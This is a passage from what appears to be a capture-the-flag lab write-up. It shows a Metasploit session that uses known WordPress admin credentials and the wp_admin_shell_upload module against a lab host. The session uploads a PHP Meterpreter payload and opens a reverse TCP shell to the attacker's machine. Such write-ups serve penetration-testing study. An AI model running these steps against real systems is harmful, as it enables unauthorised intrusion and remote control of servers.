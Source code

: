 As we now have access to Wordpress admin console, there are [multiple known methods](https://www.hackingarticles.in/wordpress-reverse-shell/) for gaining reverse shell from there. In our case, let's use Metasploit Framework to get the initial foothold.

```
$ msfconsole -q
msf6 > search wordpress shell

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_ait_csv_rce                      2020-11-14       excellent  Yes    WordPress AIT CSV Import Export Unauthenticated Remote Code Execution
   1  exploit/unix/webapp/wp_admin_shell_upload              2015-02-21       excellent  Yes    WordPress Admin Shell Upload
# -- snip --

msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
# -- snip --
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.229
RHOSTS => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /main
TARGETURI => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD devteam01
PASSWORD => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.14.60
lhost => 10.10.14.60
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.60:4444
[*] Authenticating with WordPress using administrator:devteam01...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/qhIhnYYnCw/YKVYsjTpme.php...
[*] Sending stage (39282 bytes) to 10.10.10.229
[+] Deleted YKVYsjTpme.php
[+] Deleted qhIhnYYnCw.php
[+] Deleted ../qhIhnYYnCw
[*] Meterpreter session 1 opened (10.10.14.60:4444 -> 10.10.10.229:43440) at 2021-06-29 19:21:32 +1000

meterpreter > shell
Process 4338 created.
Channel 1 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory
whoami
nginx
```
